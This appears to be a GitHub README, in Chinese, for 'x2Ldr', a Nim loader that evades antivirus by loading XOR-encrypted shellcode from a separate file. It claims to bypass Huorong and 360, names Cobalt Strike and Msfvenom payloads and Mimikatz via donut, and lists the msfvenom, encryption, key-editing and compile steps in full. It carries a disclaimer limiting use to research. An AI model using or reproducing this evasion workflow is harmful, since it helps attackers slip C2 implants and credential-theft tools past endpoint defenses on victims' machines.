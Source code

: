 > 免责声明：本项目涉及的技术仅供安全学习与研究防御用途，禁止非法使用！

# x2Ldr
2023年12月15日 新增一个无需分离 nim 实现的加载方式 - x2Ldr-Puls

免杀效果：火绒、360（未开核晶）均联网

读入 Msfvenom 或 Cobalt Strike 等 C2 的 Shellcode 方式分离免杀

或者配合 donut 可以将 exe、dll 转为 Shellcode 载入 MimiKatz 等工具

# 使用方法
在 windows 配置 nim 环境。
官网下载 https://nim-lang.org/install_windows.html

https://nim-lang.org/download/nim-2.0.0_x64.zip

msfvenom 生成 shellcode

```
msfvenom -a x64 -p windows/x64/exec CMD=calc -f raw -o calc_x64.bin
```

xor 加密 msfvenom 生成的 raw 格式 shellcode

```sh
> python .\xorencrypt.py .\calc_x64.bin
> xor encrypted : .\calc_encrypted.bin
```

将加密后的文件名作为参数传递给 nim 文件中的 fopen 参数

```cpp
	//修改这里
	char key[] = "key";

	//修改这里
	fp = fopen("user.dat", "rb");
```

编译

```
nim c -d=mingw --app=gui --cpu=amd64 -d:release --opt:size --passL:-static .\x2Ldr.nim
```



# 效果

![image-20231212214131373](img/image1.png)

![image-20231212214155866](img/image2.png)

## huorong

![image-20231212204157772](img/image3.png)

## 360

![image-20231212213425036](img/image4.png)

![image-20231212213449828](img/image5.png)

